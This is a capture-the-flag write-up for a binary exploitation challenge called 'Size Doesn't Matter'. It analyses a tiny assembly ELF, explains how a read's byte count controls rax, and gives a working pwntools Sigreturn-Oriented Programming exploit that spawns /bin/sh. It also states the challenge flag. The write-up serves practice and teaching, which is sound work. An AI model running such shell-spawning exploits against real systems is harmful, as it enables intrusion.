 ```yaml
---
title: Size Doesn't Matter
categories: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flag: p_ctf{t1n¥_c0d3_bu+_str0ng_3n0ugh!}
draft: false
---
```

It would be a good idea to start by identifying the given binary type.

```sh
$ file chall                
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ strings chall         
I'm small, aren't I? Nobody expects me to do anything...
I guess I'll just stay here, too small to matter. Figures.
Guess I was right... I'm just too small for you to care.
test.asm
msg_len
msg2
msg2_len
msg3
msg3_len
buffer
__bss_start
_edata
_end
.symtab
.strtab
.shstrtab
.text
.data
.bss
```

It turns out that the given binary file is very small, in the `strings` command we can see that there is `test.asm` which may be the source code of this binary. So it can be concluded that this binary is a binary compiled from assembly.

It's time for us to do binary analysis using **IDA Pro**.

```c
void __noreturn start()
{
  signed __int64 v0; // rax
  signed __int64 v1; // rax
  signed __int64 v2; // rax
  signed __int64 v3; // rax
  size_t v4; // rdx
  signed __int64 v5; // rax
  signed __int64 v6; // rax
  signed __int64 v7; // rax
  char v8; // [rsp-1F4h] [rbp-1F4h] BYREF

  v0 = sys_write(1u, msg, 0x3AuLL);
  v1 = sys_read(0, &v8, 0x1F3uLL);
  v2 = sys_write(1u, msg2, 0x3CuLL);
  v3 = sys_read(0, _bss_start, 0x10uLL);
  v5 = sys_read(0, _bss_start, v4);
  v6 = sys_write(1u, msg3, 0x39uLL);
  v7 = sys_exit(0);
}
```

From the assembly code above, we can see that this binary performs `read` and `write` syscalls to read input from the user and write output to the user.

![alt text](image.png)

But there is something interesting here where in the `sys_read(0, _bss_start, 0x10uLL);` section we can see that this binary reads 0x10 bytes (16 bytes) of user input to `_bss_start` which is part of the `.bss` section. After `sys_read` is complete, this binary does `sys_read(0, _bss_start, v4);` where when `sys_read` is called it will use the previous register used in `sys_read(0, _bss_start, 0x10uLL);`.

When `sys_read(0, _bss_start, 0x10uLL);` is finished being called then the `eax` or `rax` register will contain the same value as the number of bytes read by `sys_read`.

So `sys_read(0, _bss_start, v4);` will not always be `sys_read` but it will change to another `syscall` according to the value in the `rax` register.

After searching the internet there is a technique called [Sigreturn-Oriented Programming (SROP)](https://ir0nstone.gitbook.io/notes/binexp/stack/syscalls/sigreturn-oriented-programming-srop) where we can do the `syscall` we want using this technique.

We can create **Sigreturn Frame** using `SigreturnFrame` from the `pwn` library which will help us to create the payload we want. With `SigreturnFrame` we can set the register we want and do the syscall we want.

Here is the python script that I used to complete this challenge. We store the **Sigreturn Frame** in the first `sys_read` in the `v8` variable on the stack. After that we do a second `sys_read` to write the string `/bin/sh` to `_bss_start` (But we adjust it first so that the output of `rax` becomes the `sys_rt_sigreturn` syscall number 15) which we then use in the **Sigreturn Frame** to do the `execve` syscall which will run the shell.

```py
from pwn import *

binary = './chall'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('microp.ctf.prgy.in', 1337, ssl=True)

# gdb.attach(r, '''
#     b *_start+108
#     c
# ''')

frame = SigreturnFrame()
frame.rax = 59          # execve syscall number
frame.rdi = 0x4020B0    # Pointer to "/bin/sh" string (_bss_start)
frame.rsi = 0           # NULL argv
frame.rdx = 0           # NULL envp
frame.rip = 0x401098    # syscall instruction

payload_stage1 = bytes(frame).ljust(0x1F3, b'\x00')

r.recvuntil(b"I'm small, aren't I? Nobody expects me to do anything...")
r.send(payload_stage1)

payload_stage2 = b"/bin/sh\x00".ljust(15, b'\x00')

r.recvuntil(b"I guess I'll just stay here, too small to matter. Figures.")
r.send(payload_stage2) # Write /bin/sh to _bss_start

r.interactive()
r.close()
```
